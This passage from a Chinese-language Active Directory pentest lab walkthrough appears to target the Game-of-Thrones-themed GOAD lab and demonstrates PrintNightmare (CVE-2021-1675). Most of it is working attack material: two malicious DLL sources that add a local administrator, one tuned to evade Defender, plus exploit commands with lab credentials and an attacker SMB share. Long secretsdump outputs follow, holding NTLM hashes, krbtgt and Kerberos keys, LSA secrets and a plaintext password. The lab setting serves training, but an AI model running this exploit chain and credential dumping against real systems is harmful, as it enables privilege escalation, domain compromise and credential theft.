pac1$:aes256-cts-hmac-sha1-96:6b39a7268d7d0466586bcdfa77e9cef6d0ba120257008ddd5892cbc8a536354c
pac1$:aes128-cts-hmac-sha1-96:0d025466431d8d82013a9fa52889ab19
pac1$:des-cbc-md5:c75dda37ad4a4f32
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:c2ac7ab055d49ba523564eab3bfe041e026ce6745413cb8ea19514771de06080
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:5796cbf539ac141f8fed3a05892eff12
SEVENKINGDOMS$:des-cbc-md5:92d5bf79fe57158a
[*] Cleaning up... 
```

## PrintNightmare

### PrintNightmare 简要概述

#### 打印机后台处理程序

Print Spooler 是 Microsoft 内置的管理打印作业的服务，默认情况下启用它，并在 SYSTEM 上下文中运行

打印机后台处理程序注册了 3 个 RPC 协议：

* MS-RPRN：Microsoft 的打印系统远程协议。它定义了打印客户端和打印服务器之间同步进行的打印作业处理和打印系统管理的通信
* MS-PAR：Microsoft 的打印系统异步远程协议。它具有与 MS-RPRN 相同的功能，但以异步方式工作
* MS-PAN：Microsoft 的打印系统异步通知协议。用于从打印服务器接收打印状态通知，并将服务器请求的响应发送回服务器

PrintNightmare 指的是 RCE（远程命令执行）漏洞。如果易受攻击的机器配置为拒绝远程连接，则此漏洞仍可能在 LPE（本地特权提升）上下文中被利用

1. 攻击者将驱动程序 DLL 文件存储在服务器可访问的 SMB 共享上

2. 客户端创建一个包含指向攻击者 DLL 的路径的 DRIVER_INFO_2 对象，并将其传递给 DRIVER_CONTAINER 对象

3. 客户端使用 DRIVER_CONTAINER 调用 RpcAddPrinterDriverEx，将攻击者的 DLL 加载到服务器的动态库中，并使用 dwFileCopyFlags 中的多个位值来绕过服务器的 SeLoadDriverPrivilege 权限验证

4. 攻击者的 DLL 在服务器上以 SYSTEM 上下文执行

### PrintNightmare 攻击实践

#### 检查 spooler

为了利用 printnightmare，我们将首先检查spooler是否在目标上处于活动状态

* 使用cme扫描

```bash
cme smb 192.168.56.10-23 -M spooler
```

```bash
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SPOOLER     192.168.56.22   445    CASTELBLACK      Spooler service enabled
SPOOLER     192.168.56.11   445    WINTERFELL       Spooler service enabled
SPOOLER     192.168.56.10   445    KINGSLANDING     Spooler service enabled
SPOOLER     192.168.56.23   445    BRAAVOS          Spooler service enabled
SPOOLER     192.168.56.12   445    MEEREEN          Spooler service enabled
```

* 使用 impacket-rpcdump

```bash
rpcdump.py @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```

```bash
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

#### 准备 dll

* 准备利用dll
* 将创建一个用户并将其添加为本地管理员
* 创建文件 nightmare.c：

```c
#include <windows.h> 

int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

* 编译

```bash
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```

#### 在旧的Windows Server 2016 上攻击(meereen 192.168.56.12)

* 克隆仓库

```bash
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare
```

* 准备smb共享

```bash
smbserver.py -smb2support ATTACKERSHARE .
```

* 检查是否存在pnightmare用户

```bash
cme smb meereen.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
SMB         essos.local     445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         essos.local     445    MEEREEN          [-] essos.local\pnightmare:Passw0rd123. STATUS_LOGON_FAILURE 
```

* 攻击Braavos
  * Braavos 是最新的 Windows Server 2016，该漏洞将不起作用（如果在North 域攻击castelblack 服务器，也会出现同样的错误）

```bash
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@braavos.essos.local '\\192.168.56.106\ATTACKERSHARE\nightmare.dll'
```

```bash
[*] Connecting to ncacn_np:braavos.essos.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_1baafcdc8c75e648\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\nightmare.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```bash
cme smb braavos.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
SMB         braavos.essos.local 445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         braavos.essos.local 445    BRAAVOS          [+] essos.local\pnightmare:Passw0rd123. 
```

* 攻击 Meereen

```bash
cme smb meereen.essos.local -u pnightmare -p "Passw0rd123."
```

```bash
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.106\ATTACKERSHARE\nightmare.dll'
```

```bash
[*] Connecting to ncacn_np:meereen.essos.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_e233a12d01c18082\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\nightmare.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```bash
SMB         essos.local     445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         essos.local     445    MEEREEN          [+] essos.local\pnightmare:Passw0rd123. (admin)
```

```bash
impacket-secretsdump essos.local/pnightmare:'Passw0rd123.'@192.168.56.12
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xd70afcfac8ecb0c7edbb85f0ce5ec182
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
ESSOS\MEEREEN$:aes256-cts-hmac-sha1-96:c9b0d7929fbe3788056e45c9f6b131aea50883b70c756b008e403db947259498
ESSOS\MEEREEN$:aes128-cts-hmac-sha1-96:3058fd6579484ade1311962d5b7e3a3a
ESSOS\MEEREEN$:des-cbc-md5:f47915499d089146
ESSOS\MEEREEN$:plain_password_hex:e0a91bdf02d9966caf4c17f685a5e5cae9fb0afd6050b0043948d0a25913c38d81eeba11bb100bdca9c84a597fc0e39d2bb5c3c7170369c5fd0b8ed5e6add2e7e3c10b99b9f6ed66db50da49fc2d63e19e302fe153475b2f74977416a42de7c30cf3fbc903909c52b45c7098c4c732b7ae2305a91dbaada465ca4ba29ac6050fd2f03b185d049c2f2aa3a4dee22804887b94946949cc4535cc3f30610885ce0077c2222fc23c331758c34ecb73370fbdd57c87039f11f182c26ef3cf430f9a2a8518564950e9732483627aa1819450278af4de8ce72571ce5fda4f2f25a2fce0c9465e3127dcf50862292f5a06071e3e
ESSOS\MEEREEN$:aad3b435b51404eeaad3b435b51404ee:65b5725563ffa6f5fc281f9d50fc5800:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xe6b7f52b5c03e8d141ba7ea78c62389e994cdec8
dpapi_userkey:0x15d1bb5aed0505509c45e8e624b86936f3367701
[*] NL$KM 
 0000   48 12 38 16 FC 21 D8 4B  13 02 2E EF A9 E1 B3 FF   H.8..!.K........
 0010   C8 F3 E1 9B 62 AC A5 2C  F8 3E 07 1B 66 C5 93 AD   ....b..,.>..f...
 0020   06 16 32 5D 1D 00 C0 84  9B EF 1F 84 1C B1 E3 F3   ..2]............
 0030   41 8A ED 9D 0A 6A 75 6F  EC 7B D9 79 CF 8E 24 D9   A....juo.{.y..$.
NL$KM:48123816fc21d84b13022eefa9e1b3ffc8f3e19b62aca52cf83e071b66c593ad0616325d1d00c0849bef1f841cb1e3f3418aed9d0a6a756fec7bd979cf8e24d9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d1483637e7558e6c9fd2444d36b7d09c:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
daenerys.targaryen:1109:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1111:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1112:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
sql_svc:1113:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
pnightmare:1115:aad3b435b51404eeaad3b435b51404ee:58cf12d7448ca3ea7da502c83ee6a31e:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:65b5725563ffa6f5fc281f9d50fc5800:::
BRAAVOS$:1114:aad3b435b51404eeaad3b435b51404ee:34421ab85c621e07de111c8f00dcb0f8:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:6a213ca40fa7112c94408685e1a130ac:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ffc363bf4da15f300cc52df59ba993100700d9de45fa27dc0b9915e5c3677853
krbtgt:aes128-cts-hmac-sha1-96:23c7c97f4e05b85208f74d31febe818c
krbtgt:des-cbc-md5:027a929110542f25
daenerys.targaryen:aes256-cts-hmac-sha1-96:cf091fbd07f729567ac448ba96c08b12fa67c1372f439ae093f67c6e2cf82378
daenerys.targaryen:aes128-cts-hmac-sha1-96:eeb91a725e7c7d83bfc7970532f2b69c
daenerys.targaryen:des-cbc-md5:bc6ddf7ce60d29cd
viserys.targaryen:aes256-cts-hmac-sha1-96:b4124b8311d9d84ee45455bccbc48a108d366d5887b35428075b644e6724c96e
viserys.targaryen:aes128-cts-hmac-sha1-96:4b34e2537da4f1ac2d16135a5cb9bd3e
viserys.targaryen:des-cbc-md5:70528fa13bc1f2a1
khal.drogo:aes256-cts-hmac-sha1-96:2ef916a78335b11da896216ad6a4f3b1fd6276938d14070444900a75e5bf7eb4
khal.drogo:aes128-cts-hmac-sha1-96:7d76da251df8d5cec9bf3732e1f6c1ac
khal.drogo:des-cbc-md5:b5ec4c1032ef020d
jorah.mormont:aes256-cts-hmac-sha1-96:286398f9a9317f08acd3323e5cef90f9e84628c43597850e22d69c8402a26ece
jorah.mormont:aes128-cts-hmac-sha1-96:896e68f8c9ca6c608d3feb051f0de671
jorah.mormont:des-cbc-md5:b926916289464ffb
sql_svc:aes256-cts-hmac-sha1-96:ca26951b04c2d410864366d048d7b9cbb252a810007368a1afcf54adaa1c0516
sql_svc:aes128-cts-hmac-sha1-96:dc0da2bdf6dc56423074a4fd8a8fa5f8
sql_svc:des-cbc-md5:91d6b0df31b52a3d
pnightmare:aes256-cts-hmac-sha1-96:08da34ebff1dd974ef4694a80381ba0b91053db8c1ff3408c49b1ec870a355ae
pnightmare:aes128-cts-hmac-sha1-96:1e52001e6c4555756489ac2632ff1920
pnightmare:des-cbc-md5:5ef4f1d368f476ab
MEEREEN$:aes256-cts-hmac-sha1-96:c9b0d7929fbe3788056e45c9f6b131aea50883b70c756b008e403db947259498
MEEREEN$:aes128-cts-hmac-sha1-96:3058fd6579484ade1311962d5b7e3a3a
MEEREEN$:des-cbc-md5:e0497ac8ef9e4604
BRAAVOS$:aes256-cts-hmac-sha1-96:01f6db95d2cd692622389a66111abdfb8be52c648d4ea388353df4a1f88f5dc3
BRAAVOS$:aes128-cts-hmac-sha1-96:39f0fe20fecbf5611d050655a966dab9
BRAAVOS$:des-cbc-md5:8f5b150b7ff1c292
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:daa64a0546cd39ab46ea1b2d3d9e76843143243feb7cdeb6f2ce99eee6468636
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:c8a4201e7c5134faaff2263ec8b18888
SEVENKINGDOMS$:des-cbc-md5:fd4389cb1fae10d0
[*] Cleaning up... 
```

>Wait, you use domain connection instead of –local-auth with cme no ?
>
>是的，这是因为meereen是一个域控制器
>域控制器没有内置域或帐户域。 此外，这些系统不使用 SAM 数据库，而是使用 Microsoft Active Directory 目录服务来存储帐户访问信息
>参见 <https://docs.microsoft.com/en-us/windows/win32/secmgmt/built-in-and-account-domains>

#### 在windows server 2019 (winterfell 192.168.56.11)上攻击

* 现在在易受攻击的 Windows Server 2019 上尝试相同的漏洞利用
* 它也有效，但用户不在管理员组中:(
* 与漏洞无关，只是我们的 dll 将用户添加为管理员，当用户设置为管理员时被捕获

* 好（事情）要知道：在发生一些故障后，后台打印程序服务将被防御者停止，并且在有人重新启动服务器或后台打印程序服务之前，您将无法再利用该服务。
* 让我们用另一个代码更改有效负载（来源：<https://github.com/newsoft/adduser）>

```c
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>


DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif

__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif

// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}
```

* 使用此有效负载，我们可以绕过防御者并将我们的用户添加为管理员
* 编译

```bash
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32
```

```bash
python3 CVE-2021-1675.py  north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.106\ATTACKERSHARE\pnightmare2.dll'
```

```bash
[*] Connecting to ncacn_np:winterfell.north.sevenkingdoms.local[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.56.106\ATTACKERSHARE\pnightmare2.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Stage2: 0
[+] Exploit Completed
```

```
impacket-secretsdump north.sevenkingdoms.local/pnightmare2:'Test123456789!'@192.168.56.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xae5564d04e225ccba0d2643161c48b10
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
NORTH\WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
NORTH\WINTERFELL$:des-cbc-md5:70ab6e5d08eca81c
NORTH\WINTERFELL$:plain_password_hex:d452d7acbee89340ffd08a60348d69f58cf4183c4cf361f8dfca34938ebb435e77372871f8268d42ad52cd99492e8b7a73e131d386300378032c818fc3a48089ff79a5fd4a3fd34ae3bf2cd15427b853bef44a2e8e9b2bcf9ceabba4f99d9da6f2b5e2e9558517c5bd6a0ab0a1c42ad05a084b97fee2f3efb40b484a68c242dfed0f174bfca7859e888bc99915fc126489cafd27fcea31987b9edae98a8d7c2748d3105e09e75ae1807da54eb2932ba1f6fe74304ee811d274a8d64f3e61e1b3ca03956f334ceae55b551fb1807d03700d9165818942726d1477a8478a797ca1b29f5ebfccdea59253878e7ad2d3e26a
NORTH\WINTERFELL$:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
[*] DefaultPassword 
NORTH\robb.stark:sexywolfy
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6c83b7e5a495bf35a524aeff74c92593143c17a0
dpapi_userkey:0x334f998763f721c1dd63a9ebde90054970e54c06
[*] NL$KM 
 0000   22 34 01 76 01 70 30 93  88 A7 6B B2 87 43 59 69   "4.v.p0...k..CYi
 0010   0E 41 BD 22 0A 0C CC 23  3A 5B B6 74 CB 90 D6 35   .A."...#:[.t...5
 0020   14 CA D8 45 4A F0 DB 72  D5 CF 3B A1 ED 7F 3A 98   ...EJ..r..;...:.
 0030   CD 4D D6 36 6A 35 24 2D  A0 EB 0F 8E 3F 52 81 C9   .M.6j5$-....?R..
NL$KM:223401760170309388a76bb2874359690e41bd220a0ccc233a5bb674cb90d63514cad8454af0db72d5cf3ba1ed7f3a98cd4dd6366a35242da0eb0f8e3f5281c9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8bf38852ab8d3a887ae867500c9a48c5:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1109:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1110:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1111:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1112:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1113:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1114:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1115:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1116:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1117:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1118:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1119:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1120:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
pnightmare2:1123:aad3b435b51404eeaad3b435b51404ee:c103cafa49983dbcf3d8a1c951f46347:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:723026eda8195b4bd9e82caef809c40f:::
SEVENKINGDOMS$:1121:aad3b435b51404eeaad3b435b51404ee:1b89cf55c349b296a8fc34f95d7580e0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:82b8cbbbe398df35611657a4fab06f32fedc6a9c0036ae6e0988193de5c30a8c
krbtgt:aes128-cts-hmac-sha1-96:d4a753716a2747b19c1eb09a9e0d4a97
krbtgt:des-cbc-md5:708ad92523fdf7b6
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
pnightmare2:aes256-cts-hmac-sha1-96:f11d545813f97b71278e1d2e9d24b4f2f01d9cf294a1fa1289605a1ad71ebcf7
pnightmare2:aes128-cts-hmac-sha1-96:92a931c1ecfbdf6e1c5fac646dbe9622
pnightmare2:des-cbc-md5:9eba409ef8834589
WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
WINTERFELL$:des-cbc-md5:7ff72c75d5d683b5
CASTELBLACK$:aes256-cts-hmac-sha1-96:ac20a1c7051889152b6811094c6e52bd854d347a0e9b52ad63b6ea98794b1423
CASTELBLACK$:aes128-cts-hmac-sha1-96:c1fe9a27470b9bd8e0e9537e4f63b3ae
CASTELBLACK$:des-cbc-md5:fec498bf3eea5ef8
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:c2ac7ab055d49ba523564eab3bfe041e026ce6745413cb8ea19514771de06080
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:5796cbf539ac141f8fed3a05892eff12
SEVENKINGDOMS$:des-cbc-md5:92d5bf79fe57158a
[*] Cleaning up... 
```
